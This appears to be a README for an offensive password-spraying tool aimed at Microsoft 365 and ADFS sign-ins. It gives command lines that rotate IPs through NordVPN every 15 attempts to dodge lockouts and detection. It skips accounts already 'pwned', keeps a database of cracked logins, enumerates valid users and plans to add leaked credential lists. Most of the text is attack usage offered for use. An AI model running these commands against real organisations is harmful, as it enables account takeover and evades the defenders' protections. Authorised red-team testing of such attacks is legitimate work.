 # Password spraying O365/ADFS with IP rotation (NordVPN)
Password spraying O365/ADFS with IP rotation (nordvpn) every 15 attempts

## Prerequisites

* Nordvpn client (tested on debian)
* Connect to nordvpn
```bash
sudo nordvpn login
```
* Python packages
```bash
pip3 install -r requirements.txt
```
## Managed tenant
### Usage
```bash
sudo python3 MSOLSpray.py -U '<path/to/mail/file>' -s 2 -p '<pass>' --vpn --vpn-area "France,Germany,Netherlands,United Kingdom" --ignore-success --skip-tested
```
* **--vpn**: Use NordVPN to rotate IP.
* **--vpn-area**: Specify NordVPN region(s), uses `Europe` by default.
* **--ignore-success**: Do not test users already pwned.
* **--skip-tested**: Do not test user:password already tried.

## ADFS
### Usage
```bash
sudo python3 ADFSpray.py -U '<path/to/mail/file>' -r 1 3 -p '<pass>' -t https://<adfs.tenant.com> adfs --vpn --vpn-area "France,Germany,Netherlands,United Kingdom" --ignore-success --skip-tested
```
* **--vpn**: Use NordVPN to rotate IP.
* **--vpn-area**: Specify NordVPN region(s), uses `Europe` by default.
* **--ignore-success**: Do not test users already pwned.
* **--skip-tested**: Do not test user:password already tried.


## Retrieve data in local DB
1. Initialize/create the database (if not already done)
```bash
sudo python3 db_admin.py --init
```

2. List the 20 last "success"
```bash
sudo python3 db_admin.py --list-success --limit 20
```

3. List the "fail"
```bash
sudo python3 db_admin.py --list-fail
```

4. Print users that exist (MSOL only, ADFS script doesn't have this type of information **but** you can use MSOL script once on ADFS users to know if user exists or not in ADFS!)
```bash
sudo python3 db_admin.py --print-valid-users
```

5. Filtered request
```bash
sudo python3 db_admin.py --query --subject alice@example.com --status success --limit 10
```

6. CSV export
```bash
sudo python3 db_admin.py --export out.csv --limit 500
```

7 Purge events older than 60 days
```bash
sudo python3 db_admin.py --purge 60
```

# Roadmap
- Adding countries for NordVPN as an option
- Adding local DB as an option to:
    - Skip users with a known password
    - Skip users when the password tried has already been tried before
- Add an option for user:password wordlists (leaks)
